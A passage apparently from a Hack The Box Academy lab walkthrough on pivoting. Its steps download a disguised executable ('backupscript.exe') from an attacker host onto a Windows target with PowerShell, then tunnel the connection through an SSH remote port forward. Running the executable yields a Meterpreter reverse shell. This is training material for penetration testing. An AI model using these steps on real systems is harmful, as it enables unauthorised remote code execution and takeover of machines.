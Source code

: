 ```
Do you trust the above certificate? (Y/T/N) Y

<SNIP>
```

#### **Step 7: Download Payload on Windows Target**
**Note:** Run PowerShell as Administrator on Windows target
```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\\backupscript.exe"
```

**Expected Output:**
```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\\backupscript.exe"
```

#### **Step 8: Perform SSH Remote Port Forward**
```bash
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN
```

**Expected Output:**
```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN

OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1k  25 Mar 2021

<SNIP>

debug1: Next authentication method: password
ubuntu@10.129.202.64's password: 
debug1: Authentication succeeded (password).
Authenticated to 10.129.202.64 ([10.129.202.64]:22).
debug1: Remote connections from 172.16.5.129:8080 forwarded to local address 0.0.0.0:8000
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Remote: Forwarding listen address "172.16.5.129" overridden by server GatewayPorts
debug1: remote forward success for: listen 172.16.5.129:8080, connect 0.0.0.0:8000
```

#### **Step 9: Execute Payload to Get Reverse Shell**
**From Windows PowerShell (as Administrator):**
```cmd
C:\backupscript.exe
```

**Expected Result:** Meterpreter session established on the Metasploit handler through the SSH remote port forward tunnel.
